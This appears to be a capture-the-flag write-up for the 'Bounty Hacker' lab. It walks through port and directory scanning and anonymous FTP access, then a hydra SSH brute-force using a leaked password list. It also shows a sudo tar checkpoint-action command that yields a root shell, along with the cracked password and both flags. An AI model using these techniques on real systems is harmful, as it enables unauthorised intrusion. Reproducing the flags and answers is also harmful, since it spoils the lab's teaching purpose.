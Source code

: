 <head>
<h1><center>Bounty Hacker</center></h1>
</head>

## Description

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

<br>

## Enumeration

We are provided with the IP of the machine.

### Port Scan

&nbsp;&nbsp;Basic port scan shows that there are three open ports on the machine.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 80

The website contains a picture and some quotes by some poeple.
<img src="./images/web.png">

Directory Scan showed nothing useful..


```
/.hta                 (Status: 403) [Size: 277]

/.htpasswd            (Status: 403) [Size: 277]

/.htaccess            (Status: 403) [Size: 277]

/images               (Status: 301) [Size: 313] [--> http://10.10.11.233/images/]

/index.html           (Status: 200) [Size: 969]                                  

/server-status        (Status: 403) [Size: 277]
```


#### Port 21

Here we have anonymous login to FTP 
It has two files 
- locks.txt
- task.txt

locks.txt

```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
 
task.txt

```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

<br>

## SSH

I realized that `locks.txt` possibly contain the passwords of some user.
I quickly listed out all the possible usernames that I have seen on the website and of course from task.txt

users 

```
spike
jet
ed
faye
lin
```

I then used [hydra](https://www.kali.org/tools/hydra/) to bruteforce the combination.

```
username : lin
passwd   : RedDr4gonSynd1cat3
```

After logging in we find user flag in lin's home directory.

```
THM{CR1M3_SyNd1C4T3}
```

<br>

##  Privilege Escalation

Basic enumeration `sudo -l` showed that user lin can run `/bin/tar` as root..🤩

Heading over to GTFObins gave this command 

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This gives us the root shell..💀

root flag

```
THM{80UN7Y_h4cK3r}
```
